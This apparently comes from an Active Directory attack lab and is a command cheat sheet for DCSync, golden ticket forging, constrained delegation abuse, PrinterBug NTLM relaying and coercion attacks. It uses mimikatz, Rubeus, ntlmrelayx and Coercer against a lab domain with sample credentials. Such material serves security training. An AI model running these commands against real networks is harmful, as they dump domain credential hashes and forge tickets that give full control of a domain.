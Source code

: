 # DCSync

|Command|Description|
|---|---|
|`runas /user:eagle\rocky cmd.exe`|Start a new instance of `cmd.exe` as the user `eagle\rocky`.|
|`mimikatz.exe`|Tool used to implement the DCsync attack|
|`lsadump::dcsync /domain:eagle.local /user:Administrator`|Command used in `mimikatz` to DCSync and dump the `Administrator` password hash|

# Golden Ticket

|Command|Description|
|---|---|
|`lsadump::dcsync /domain:eagle.local /user:krbtgt`|Command used in `mimikatz` to DCSync and dump the `krbtgt` password hash|
|`Get-DomainSID`|Cmdlet from `PowerView` used to obtain the SID value of the domain.|
|`golden /domain:eagle.local /sid:<domain sid> /rc4:<rc4 hash> /user:Administrator /id:500 /renewmax:7 /endin:8 /ptt`|Command used in `mimikatz` to forge a golden ticket for the `Administrator` account and pass the ticket to the current session|
|`klist`|Command line utility in Windows to display the contents of the Kerberos ticket cache.|

# Kerberos Constrained Delegation

|Command|Description|
|---|---|
|`Get-NetUser -TrustedToAuth`|Cmdlet used to enumerate user accounts that are trusted for delegation in the domain|
|`.\Rubeus.exe hash /password:Slavi123`|Converts the plaintext password `Slavi123` to its NTLM hash equivalent|
|`.\Rubeus.exe s4u /user:webservice /rc4:<hash> /domain:eagle.local /impersonateuser:Administrator /msdsspn:"http/dc1" /dc:dc1.eagle.local /ptt`|Using Rubeus to request a ticket for the `Administrator` account, by way of the `webservice` user who is trusted for delegation|
|`Enter-PSSession dc1`|Used to enter a new powershell remote session on the `dc1` computer|

# Print Spooler & NTLM Relaying

|Command|Description|
|---|---|
|`impacket-ntlmrelayx -t dcsync://172.16.18.4 -smb2support`|Used to forward any connections to DC2 and attempt to perform DCsync attack|
|`python3 ./dementor.py 172.16.18.20 172.16.18.3 -u bob -d eagle.local -p Slavi123`|Used to trigger the PrinterBug|
|`RegisterSpoolerRemoteRpcEndPoint`|Registry key that can be disabled to prevent the PrinterBug|

# Coercing Attacks & Unconstrained Delegation

|Command|Description|
|---|---|
|`Get-NetComputer -Unconstrained \| select samaccountname`|PowerView command used to idenfity systems configred for Unconstrained Delegation.|
|`.\Rubeus.exe monitor /interval:1`|Used to monitor new logons and extract TGTs.|
|`Coercer -u bob -p Slavi123 -d eagle.local -l ws001.eagle.local -t dc1.eagle.local`|Used to perform a coercing attack towards DC1, forcing it to connect to WS001.|
|`mimikatz # lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator`|Uses `Mimikatz` to perform a `dcsync` attack from a Windows-based host.|
